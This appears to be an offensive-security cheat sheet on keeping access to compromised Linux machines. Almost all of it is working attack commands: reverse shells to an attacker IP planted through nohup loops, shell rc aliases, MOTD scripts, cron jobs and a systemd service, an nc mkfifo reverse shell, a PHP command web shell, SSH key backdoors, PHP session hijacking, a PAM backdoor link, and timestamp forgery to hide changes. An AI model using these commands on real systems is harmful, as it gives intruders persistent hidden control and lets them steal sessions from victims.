 # Linux Persistence

For general overview of persistence that OS neutral: [[Persistence]].

#### Nohup

Use `nohup` - no hang up in a script to make call back.  
```bash
#!/bin/bash
while true; do
    nohup bash -i >& /dev/tcp/$ip/443 0>&1;
    sleep 10;
done
```


#### Ippsec Timestamp checking

Find all timestamps as [[Linux-Blueteam]], with `touch` `cp` the persistence mechanicism with `touch`
```bash
ls -lt --time-style=full-iso# Displys all timestamps
find / -type f -printf "%T+ %p\n" | grep -v 00000000
touch original_lib_file -r persistence_file
```

#### .rc Aliasing

```bash
# If have sudo or permission to propagate to all usersasdasd
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /etc/profile
# consider .zshrc or dash.rc
echo "alias PEST='($revershell_goes_here)'" | sudo tee -a /home/$USER/.bashrc 
```

#### MOTD you got pwned

```bash
# When anyone logs in 
echo "$reversehell_goes_here" | sudo tee -a /etc/update-motd.d/00-header
```

#### SSH Keys
It's not very hidden, easy to remove or detect. - https://attack.mitre.org/techniques/T1098/
```bash
# Generate on host; provide some fields
ssh-keygen  
# target machine:
# cat public key on host and echo it into .ssh/authorized_keys
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
chmod 600 id_rsa
```

#### php
1. in web root `/var/www/html`
2. `touch shell.php` and add the below:
2. Or add within a file of this directory
1. Change the 'cmd' parameter to something that LESS like to be called 
```php
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

#### stealing php session
```bash
/var/lib/php/sessions # defauilt locations
sess_<SESSION_ID> # set your PHPSESSID cookie to hijack
```
Session files and cookie name are configurable in php.ini:
```php
session.save_path
session.name
```

#### Cron
```bash
# newlines required
CT="\n1 * * * *   root    ./dev/shm/met.elf\n"
printf "$CT" | crontab -

```

As a one-liner
```bash
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
```

Serve shell script, for example:
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```
.bashrc
```bash
echo 'bash -i >& /dev/tcp/$ip/$port 0>&1' >> ~/.bashrc
```
OR pam_unix.so [pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

```bash
# Variable just for easy reading.
REVSHELL="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 >/tmp/f"
(crontab -l ; echo "@reboot sleep 200 && $REVSHELL")|crontab 2> /dev/null
```

#### Systemd

[From this article Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)
```bash
touch ~/.config/system/root/persistence.service
# Make p.service 
[Unit]  
Description=Just a reverse shell

[Service]  
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8008 0>&1'  
Restart=always  
RestartSec=60

[Install]  
WantedBy=default.target
```

Enable and start service
```bash
systemctl --user enable persistence.service
systemctl --user start persistence.service 
# systemd --user only started on login
# Configure with root run:
loginctl enable-linger
# Check if already set:
/var/lib/systemd/linger/$username_is_here_if_enabled
```


## References

[Ippsec Rocks, youtube video](https://www.youtube.com//watch?v=yaV09XCDDqI&t=390s)
[9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c) -  Backdoors
[creating-backdoor-in-pam](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html) - pam unix backdoors
[linuxbackdoors](https://tryhackme.com/room/linuxbackdoors) - Backdoors
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Persistence.md)
[Mitre Persistence](https://attack.mitre.org/techniques/T1098)
[Alexey Petrenko's Systemd persistence](https://medium.com/@alexeypetrenko/systemd-user-level-persistence-25eb562d2ea8)